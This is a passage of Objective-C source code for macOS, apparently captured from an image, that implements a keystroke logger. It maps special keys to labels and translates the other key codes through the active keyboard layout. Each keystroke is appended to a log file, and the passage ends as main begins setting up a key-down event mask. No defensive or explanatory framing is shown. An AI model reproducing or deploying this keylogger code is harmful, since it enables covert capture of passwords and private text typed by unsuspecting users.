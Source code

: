 ```
            case kVK_Tab: keyString = @"<Tab>"; break;
            case kVK_Space: keyString = @"<Space>"; break;
            case kVK_Delete: keyString = @"<Delete>"; break;
            case kVK_Escape: keyString = @"<Escape>"; break;
            case kVK_Command: keyString = @"<Command>"; break;
            case kVK_Shift: keyString = @"<Shift>"; break;
            case kVK_CapsLock: keyString = @"<CapsLock>"; break;
            case kVK_Option: keyString = @"<Option>"; break;
            case kVK_Control: keyString = @"<Control>"; break;
            case kVK_RightControl: keyString = @"<Control>"; break;
            case kVK_RightShift: keyString = @"<Shift>"; break;
            case kVK_RightOption: keyString = @"<Option>"; break;
            case kVK_Function: keyString = @"<Function>"; break;
            case kVK_F1: keyString = @"<F1>"; break;
            case kVK_F2: keyString = @"<F2>"; break;
            case kVK_F3: keyString = @"<F3>"; break;
            // Add more cases here for other non-printable keys...
            default: break; // Not a special non-printable key
        }

        // If it's not a special key, try to translate it
        if (!keyString) {
            UniCharCount maxStringLength = 4;
            UniCharCount actualStringLength = 0;
            UniChar unicodeString[maxStringLength];

            TISInputSourceRef currentKeyboard = TISCopyCurrentKeyboardInputSource();
            CFDataRef layoutData = TISGetInputSourceProperty(currentKeyboard, kTISPropertyUnicodeKeyLayoutData);
            const UCKeyboardLayout *keyboardLayout = (const UCKeyboardLayout *)CFDataGetBytePtr(layoutData);

            UInt32 deadKeyState = 0;
            OSStatus status = UCKeyTranslate(keyboardLayout,
                                             keyCode,
                                             kUCKeyActionDown,
                                             0,
                                             LMGetKbdType(),
                                             kUCKeyTranslateNoDeadKeysBit,
                                             &deadKeyState,
                                             maxStringLength,
                                             &actualStringLength,
                                             unicodeString);
            CFRelease(currentKeyboard);

            if (status == noErr && actualStringLength > 0) {
                keyString = [NSString stringWithCharacters:unicodeString length:actualStringLength];
            } else {
                keyString = [NSString stringWithFormat:@"<KeyCode: %d>", keyCode];
            }
        }

        NSString *logString = [NSString stringWithFormat:@"%@\n", keyString];
        AppendStringToFile(logString, kKeystrokesLogPath);
    }
    return event;
}

int main() {
    @autoreleasepool {
        CGEventMask eventMask = CGEventMaskBit(kCGEventKeyDown);
```